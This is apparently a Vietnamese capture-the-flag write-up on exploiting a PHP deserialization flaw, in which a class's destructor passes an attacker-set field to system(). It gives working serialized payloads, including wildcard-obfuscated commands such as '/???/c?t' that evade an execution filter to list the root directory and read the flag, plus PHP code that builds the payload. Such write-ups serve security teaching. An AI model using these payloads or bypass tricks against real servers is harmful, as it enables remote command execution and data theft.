 Trước hết, khi nhìn vào source code của chương trình, ta thấy chương trình nhận vào một biến $_GET['payload'], challenge này thuộc dạng khai thác lỗ hổng Deserialize
nên ta sẽ truyền payload vào trong biến GET trên URL.

Nguyên văn class ban đầu của chương trình:

```PHP
class exploit_me
{
    public $cmd;
    public function __destruct(){
        system($this->cmd);
    }
}
```

Ta thấy để khai thác được lỗ hổng này thì ta cần truyền vào một biến cmd là câu lệnh sẽ được chạy trong hàm system của PHP

Nếu vậy thì đối với challenge này, ta sẽ cần đọc file flag.txt (dự đoán) đang nằm ở đâu đó trong hệ thống file của máy chủ chạy trang web này

Ta sẽ thử với payload như sau:

```
O:10:"exploit_me":1:{s:3:"cmd";s:2:"ls";}
```
Ta thấy đối với payload này, trang web không trả về kết quả nào, do trang web và hệ thống host đã có cơ chế chống thực thi trong webshell

Để bypass trường hợp này, ta cần sử dụng các ký tự đặc biệt cũng như các payload đặc biệt.

Ta sẽ thực hiện list tất cả các file nằm ở thư mục / (root) của hệ thống bằng payload:

```
O:10:%22exploit_me%22:1:%7Bs:3:%22cmd%22;s:10:%22/???/d?r%20/%22;%7D
```

Như vậy ta thấy hệ thống file được hiển thị ra, ta cần nội dung file ```a8749209e3d652e_flag```, do đó ta sẽ đổi payload sang:

```
O:10:"exploit_me":1:{s:3:"cmd";s:30:"/???/c?t /a8749209e3d652e_flag";}
```

Code PHP tạo payload:

```PHP
class exploit_me
{
    public $cmd = "/???/c?t /a8749209e3d652e_flag";
    public function __destruct(){
        system($this->cmd);
    }
}

$a = new exploit_me();
file_put_contents("payload", serialize($a));
```



